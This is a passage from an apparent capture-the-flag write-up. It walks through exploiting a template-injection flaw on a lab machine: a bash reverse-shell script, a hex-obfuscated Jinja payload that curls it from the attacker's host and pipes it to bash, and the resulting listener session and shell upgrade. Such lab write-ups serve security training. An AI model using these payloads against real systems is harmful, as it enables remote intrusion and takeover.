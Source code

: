 ```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.7/443 0>&1

```

Then I used this payload to `curl` it and pipe it to Bash:

```

{% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("curl 10\x2e10\x2e14\x2e7/shell\x2esh | bash")["read"]()%}

```

Running it gave the request at the webserver:

```

oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.243 - - [17/Jun/2021 14:51:27] "GET /shell.sh HTTP/1.1" 200 -

```

And then a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 33582
bash: cannot set terminal process group (85021): Inappropriate ioctl for device
bash: no job control in this shell
chiv@spider:/var/www/webapp$

```

Standard shell upgrade:

```

chiv@spider:/var/www/webapp$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'   
chiv@spider:/var/www/webapp$ ^Z             
[1]+  Stopped                 nc -lnvp 443  
oxdf@parrot$ stty raw -echo ; fg
nc -lnvp 443                                
            reset                           
reset: unknown terminal type unknown        
Terminal type? screen                       
chiv@spider:/var/www/webapp$

```
